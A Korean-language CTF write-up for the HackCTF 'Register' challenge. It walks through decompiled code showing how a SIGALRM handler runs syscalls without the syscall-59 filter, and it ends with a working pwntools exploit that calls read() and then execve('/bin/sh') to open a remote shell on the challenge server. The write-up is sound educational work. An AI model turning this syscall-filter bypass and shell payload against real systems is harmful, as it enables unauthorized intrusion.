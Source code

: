 ```yaml
---
title: "[HackCTF]Register"
date: 2020-1-27
ctf: HackCTF
layout: post
published : false
---
```


메인에서는 alarm함수로 5초후 시그널 보낸다.

```c
int __cdecl __noreturn main(int argc, const char **argv, const char **envp)
{
  alarm(5u);
  setvbuf(stdout, 0LL, 2, 0LL);
  build();
}
```

메인에서 실행되는 build함수는 siglarm가 발생하면 handler로 처리해준다. 

```c
void __noreturn build()
{
  __int64 v0; // [rsp+0h] [rbp-40h]
  __int64 v1; // [rsp+8h] [rbp-38h]
  __int64 v2; // [rsp+10h] [rbp-30h]
  __int64 v3; // [rsp+18h] [rbp-28h]
  __int64 v4; // [rsp+20h] [rbp-20h]
  __int64 v5; // [rsp+28h] [rbp-18h]
  __int64 v6; // [rsp+30h] [rbp-10h]
  unsigned __int64 v7; // [rsp+38h] [rbp-8h]

  v7 = __readfsqword(0x28u);
  signal(14, handler);
  while ( 1 )
  {
    do
    {
      get_obj(&v0);
      obj = v0;
      qword_6010A8 = v1;
      qword_6010B0 = v2;
      qword_6010B8 = v3;
      qword_6010C0 = v4;
      qword_6010C8 = v5;
      qword_6010D0 = v6;
    }
    while ( validate_syscall_obj(v0) );
    raise(14);
  }
}
```

handler 내부를 보면 `exec_syscall_obj` 를 실행시켜주는데 우리가 입력한 값들이 각각 레지스터에 맞게 들어가 syscall을 호출해준다.

```c
__int64 __fastcall exec_syscall_obj(_QWORD *a1)
{
  _QWORD *v1; // rbx
  __int64 result; // rax
  __int64 v3; // rdi
  __int64 v4; // rsi
  __int64 v5; // rdx
  __int64 v6; // rcx
  __int64 v7; // r8
  __int64 v8; // r9

  v1 = a1;
  result = *a1;
  v3 = a1[1];
  v4 = v1[2];
  v5 = v1[3];
  v6 = v1[4];
  v7 = v1[5];
  v8 = v1[6];
  __asm { syscall; LINUX - }
  return result;
}
```

`validate_syscall_obj` 함수에서는 rax 레지스터 check를 해준다.

```c
__int64 __fastcall validate_syscall_obj(signed __int64 a1)
{
  unsigned int v2; // [rsp+14h] [rbp-4h]

  if ( a1 == 2 )
  {
    v2 = 0;
  }
  else if ( a1 > 2 )
  {
    if ( a1 == 3 )
    {
      v2 = 0;
    }
    else
    {
      if ( a1 != 60 )
        return 1;
      v2 = 0;
    }
  }
  else if ( a1 )
  {
    if ( a1 != 1 )
      return 1;
    v2 = 0;
  }
  else
  {
    v2 = 0;
  }
  return v2;
}
```

bss영역은 레지스터들이 사용되는 공간이라 data영역을 사용했다.

syscall 59는 필터링되어있어서 sleep() 줘서 sigalrm 떠서 handler 실행시키게 했다.

read(0,data,10) -> execve('/bin/sh\x00',0,0)

> exploit.py

```python
from pwn import *

# context.log_level = 'debug'
e = ELF('./register')
# p = process('./register')
p = remote('ctf.j0n9hyun.xyz',3026)
data = 0x0000000000601068

def chain(rax,rdi,rsi,rdx,rcx,r8,r9):
	p.sendlineafter(':',str(rax))
	p.sendlineafter(':',str(rdi))
	p.sendlineafter(':',str(rsi))
	p.sendlineafter(':',str(rdx))
	p.sendlineafter(':',str(rcx))
	p.sendlineafter(':',str(r8))
	p.sendlineafter(':',str(r9))

chain(0,0,data,10,0,0,0)
p.send('/bin/sh\x00')
chain(59,data,0,0,0,0,0)
sleep(5)
p.interactive()
```

